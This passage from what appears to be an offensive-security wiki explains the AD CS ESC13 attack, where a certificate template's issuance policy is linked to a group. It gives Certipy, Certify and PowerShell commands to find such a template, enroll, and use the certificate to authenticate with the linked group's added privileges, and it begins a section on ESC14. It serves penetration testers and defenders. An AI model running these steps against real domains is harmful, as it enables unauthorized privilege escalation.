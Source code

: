 From UNIX-like systems, this [pull request](https://github.com/ly4k/Certipy/pull/196) on Certipy (Python) permits to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty. Additionally, it verifies if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.

```bash
certipy find -u '$USER@$DOMAIN' -p '"$PASSWORD' -dc-ip '$DC_IP'
```

If a vulnerable template is found, there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, request a certificate for this template with [Certipy](https://github.com/ly4k/Certipy) (Python) as usual:

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Vulnerable template'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.


=== Windows

From Windows systems, the ActiveDirectory PowerShell module can be used to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty.

```powershell
Get-ADObject "CN="Vulnerable template",$TemplateContainer" -Properties msPKI-Certificate-Policy
```

Then, if there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, verify if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.

```powershell
Get-ADObject "CN=$POLICY_ID,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
```

Now, request a certificate for this template with [Certify](https://github.com/GhostPack/Certify) (C#) as usual:

```powershell
.\Certify.exe request /ca:domain\ca /template:"Vulnerable template"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.

:::


### (ESC14) Weak explicit mapping

This attack exploits configuration errors when explicit mapping is set up. To understand this ESC, it is essential to have a good command of [Certificate mapping](certificate-templates.md#certificate-mapping).
